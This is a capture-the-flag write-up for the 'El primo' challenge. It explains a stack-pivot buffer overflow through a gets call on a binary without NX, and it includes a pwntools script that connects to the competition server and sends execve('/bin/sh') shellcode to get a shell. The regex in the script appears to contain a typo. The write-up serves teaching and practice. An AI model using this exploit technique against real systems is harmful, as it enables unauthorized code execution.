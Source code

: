 # El primo

There's no NX, AND a gets call. On top of this, the program sends us the buffer address. A simple ret to shellcode, right?

Wrong, in fact. We have to buffer overflow from main, which makes things more difficult. Instead of the classic leave ; ret, it pops a value into ecx, then loads ecx - 4 into esp. This removes our classic buffer overflow where we change EIP. Instead, we must stack pivot.

We have control of ESP. When you call ret, the program jumps to the address stored at ESP. We can set esp to the address of the buffer. Then, we change the beginning of our buffer to be the address of our shellcode.I put the shellcode after the esp.

We can use pattern.py to figure out the amount of bytes until esp, which is 32.

## NOTE! it subtracts 4 from our chosen esp value, so we must take care of this.

I created custom shellcode that had to have the address of a string /bin/sh which I also put in the input.

```python
from pwn import *
import re
NUM_TO_ESP = 32
p = remote('p1.tjctf.org', 8011)
p.recvline()
output = p.recvline().decode()
bufaddr = int(re.findall("hint: (,*)", output)[0],16)
shellcode = asm(f"mov ebx,{hex(bufaddr + 4)} ; mov ecx,0 ; mov edx,0 ; mov eax,0xb ; int 0x80") 
start = flat(bufaddr + 36, b"/bin/sh\x00")
espval = bufaddr + 4
payload = start
payload += b'A' * (NUM_TO_ESP - len(payload))
payload += p32(espval)
payload += shellcode
p.sendline(payload)
p.interactive()
```

